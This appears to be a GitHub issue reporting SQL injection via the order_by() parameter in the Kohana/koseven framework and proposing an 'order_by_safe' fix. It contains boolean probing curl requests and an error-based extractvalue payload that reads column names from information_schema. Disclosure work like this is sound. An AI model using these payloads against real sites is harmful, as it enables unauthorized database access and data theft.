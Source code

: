 Kohana/koseven allows SQL Injection via the order_by() parameter. 
   
   
In some website, developers use dynamic sort operation like Member.php    
   
then all of the three lines of code can work
```
curl http://127.0.0.1/member/list?sort_by=desc
curl http://127.0.0.1/member/list?sort_by=if(1=1,'desc','asc')
curl http://127.0.0.1/member/list?sort_by=if(1=2,'desc','asc')
```   
attacker can execute SQL like:
```
http://x.com?order_by=,(extractvalue(1,concat(0x3a,substring(
    (select group_concat(column_name) from
information_schema.columns where table_name like 'xxx'),1,30) )))
```
or other way like:   
http://www.securityidiots.com/Web-Pentest/SQL-Injection/group-by-and-order-by-sql-injection.html  
    
If we don't remind developers the potential risks of using untrusted input at order_by ,sql injection may occur.   
        
developers may think the instructions are safe and sure of security. Most of them think the use of orm is 100% guard against sql injection.   
   
So can we add a fun like 'order_by_safe' which receive field only in models.   